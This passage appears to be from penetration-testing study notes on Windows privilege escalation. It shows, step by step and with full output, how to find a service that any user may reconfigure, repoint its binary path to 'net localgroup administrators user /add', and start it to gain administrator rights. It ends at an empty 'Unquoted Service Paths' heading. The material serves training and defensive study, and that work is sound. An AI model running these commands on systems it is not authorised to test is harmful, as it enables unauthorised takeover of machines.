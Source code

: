 
## Binary Paths

In this exploit we are searching fro services with modifiable configurations that we also have permission to restart. By changing the path of the binary executable to a command we want to execute, we can gain privilege access to the machine.

To find services with modifiable configurations, we can use the `accesschk64` tool with the following flags.

- `-u`: Suppress errors
- `-w`: Only show objects with write access
- `-c`: Display the service name
- `-v`: Verbose

Since we want services with write access to any user we also use the `Everyone *` argument.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>accesschk64.exe -uwcv Everyone *

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL


C:\Users\user\Desktop\Tools\Accesschk>accesschk64.exe -wuvc daclsvc

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

We find that there is a service named `daclsvc` with  `SERVICE_CHANGE_CONFIG` enabled. If we query just the service, we get the following information.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

There is a `BINARY_PATH_NAME` value and since we can modify the config, we can change this to any command we want.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>sc config daclsvc binpath= "net localgroup administrators user /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\user\Desktop\Tools\Accesschk>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : net localgroup administrators user /add
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Now we simply need to start the service and our user `user` will be added to the administrator group. Also note that the service will fail to start since we have changed the bin path.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------
Administrator
TCM
The command completed successfully.

C:\Users\user\Desktop\Tools\Accesschk>sc start daclsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\Users\user\Desktop\Tools\Accesschk>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
```


## Unquoted Service Paths

